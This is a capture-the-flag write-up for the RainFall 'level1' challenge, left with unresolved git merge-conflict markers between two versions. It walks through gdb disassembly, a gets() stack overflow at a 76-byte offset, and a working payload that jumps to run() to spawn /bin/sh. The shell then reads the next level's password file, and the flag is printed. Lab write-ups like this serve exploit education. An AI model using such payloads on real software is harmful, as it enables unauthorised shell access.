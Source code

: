 <<<<<<< HEAD

1. Run the Binary and Observe Behavior and find out that it waits user inputs

```level1@RainFall:~$ ./level1 
1234
```
nothting happens

2. use gdb
(gdb) info functions
we find: 
"0x08048444  run
0x08048480  main" might be user defined, we look into these functions by using disassemble


(gdb) disassemble main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.

Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
(gdb) x/s 0x08048584
0x8048584:	 "/bin/sh"

3. Identified Vulnerabilities

    Buffer Overflow in main()

0x08048490 <+16>: call 0x8048340 <gets@plt>

    gets() reads input without bounds checking, allowing an attacker to overwrite the stack.

Call to system() in run()

0x08048479 <+53>: call 0x8048360 <system@plt>

    run() calls system(), passing a string from memory (0x8048584).

    If the argument is something like "/bin/sh", an attacker could gain shell access.


=======
📘 Buffer Overflow Exploit: Level 1
This is a classic stack-based buffer overflow example that demonstrates how you can redirect program execution to custom code by overflowing a buffer.

⚠️ Vulnerability Summary
The binary uses the unsafe gets() function.

gets() does not check how much input is provided.

So if you input more than the buffer can hold, it will start overwriting adjacent memory — including the saved return address on the stack.

This allows us to control the program's flow after the current function returns.

🧠 Our Goal
There is a hidden function in the binary named run() located at: 0x08048444
This function calls: system("/bin/sh");
💡 If we overwrite the return address to jump to run(), we get a shell as the level1 user.

🔎 Finding the Offset
To exploit this, we first need to know how many bytes it takes to reach the saved return address on the stack.

Step 1: Try 80 characters and check if EIP is overwritten

$ python -c 'print "B" * 80' > /tmp/payload
(gdb) r < /tmp/payload
Output:
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
✅ EIP is overwritten with 0x42 ("B" in ASCII) — good sign.

Step 2: Try 76 characters
$ python -c 'print "B" * 76' > /tmp/payload
(gdb) r < /tmp/payload
Output:
Program received signal SIGILL, Illegal instruction.
0xb7e45400 in __libc_start_main ()
✅ At 76 bytes, we don’t overwrite EIP yet, so offset is exactly 76 bytes.

🛠 Crafting the Exploit
Here’s the working exploit:
(python -c 'import struct; print "A"*76 + struct.pack("<I", 0x08048444)'; cat) | ./level1

🔍 Explanation
python -c '...': We use Python to generate the exploit payload.

"A" * 76: Fills the buffer right up to the return address.

struct.pack("<I", 0x08048444): Packs the address of run() in little-endian format (\x44\x84\x04\x08).
< — little-endian
I — unsigned 4-byte integer

cat: Keeps stdin open — sometimes required if the program reads input again.

| ./level1: Feeds the payload into the vulnerable binary.

✅ What Happens?
gets() reads our input (76 A's + address of run()).

When main() tries to return, it jumps to 0x08048444.

That’s the run() function → which runs system("/bin/sh").


level1@RainFall:~$ (python -c 'import struct; print "A"*76 + struct.pack("<I", 0x08048444)'; cat) | ./level1
or
python -c 'print "B"*76+"\x44\x84\x04\x08"' > /tmp/payload
cat /tmp/payload - | ./level1

Good... Wait what?
./pass
/bin/sh: 1: ./pass: Permission denied
whoami
level2
cat /home/user/level2/.pass            
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
>>>>>>> bcf3207b2bbdb9c37093f82b4d7b39879c50eab2

